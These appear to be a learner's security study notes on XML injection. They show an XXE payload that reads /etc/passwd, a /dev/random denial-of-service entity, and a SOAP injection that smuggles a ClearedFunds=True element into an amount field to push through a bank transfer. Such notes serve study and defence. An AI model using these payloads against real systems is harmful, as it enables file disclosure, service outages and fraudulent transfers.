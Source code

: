 
# Injection into XML Interpreters
## Injecting XML External Entities
- eg request contain xml data we manipulate it to enter external entity to exploit it
```xml
<!DOCTYPE rook [ <!ENTITY dk SYSTEM "file:///etc/passwd"> ]>
<search><searchTerm>&dk;</searchTerm></search>
```
this cause XML parser to fetch content of file /etc/passwd

## Cause
 1. attacker can do SSRF to access internal private network
 2. exploit vuln on back-end application,
 3. test for Open pots on back-end system,
 4. cause Denial of serveice by reading file stream idefinitely `<!DOCTYPE root [<!ENTITY dk SYSTEM "file:///dev/random"> ]>` 
 5. can cause DOS using loading static entity, `xee` unrestricted external entity expansion 

## Injecting into SOAP service
- Simple Object Access Protocol (SOAP) is message-based communication technology that use XML format to encapsulate data,
- it can be use to share information and transmit messages between systems, even if these run on different OS and Architecture
- eg. a banking application transfer funds using request that is then goes to SOAP and then it process with back end
```js
POST /bank/27/Default.aspx HTTP/1.0
Host: mdsec.net
Content-Length: 65
FromAccount=18281008&Amount=1430&ToAccount=08447656&Submit=Submit
```
in behind scene this soap request is initiated after browser sends request to server
```xml
<soap:Envelope xmlns:soap=”http://www.w3.org/2001/12/soap-envelope”>
<soap:Body>
<pre:Add xmlns:pre=http://target/lists soap:encodingStyle=
“http://www.w3.org/2001/12/soap-encoding”>
<Account>
<FromAccount>18281008</FromAccount>
<Amount>1430</Amount>
<ClearedFunds>False</ClearedFunds>
<ToAccount>08447656</ToAccount>
</Account>
</pre:Add>
</soap:Body>
</soap:Envelope>
```
here we see `<clearFunds>false` value is indicate insufficiant balance, but we modify the request while sending to soap to bypass this using 
```js
POST /bank/27/Default.aspx HTTP/1.0
Host: mdsec.net
Content-Length: 119
FromAccount=18281008&Amount=1430</Amount><ClearedFunds>True
</ClearedFunds><Amount>1430&ToAccount=08447656&Submit=Submit
```
here if it pasrse 1 st `<clearfunds>` then this cause it to take value as `TRUE` and we transfer fund, if we dont have balance then also
- we manipulate multiple times until we got desired output 
- some times manipulating `Request` cause error that can be used to craft our payload precisely.
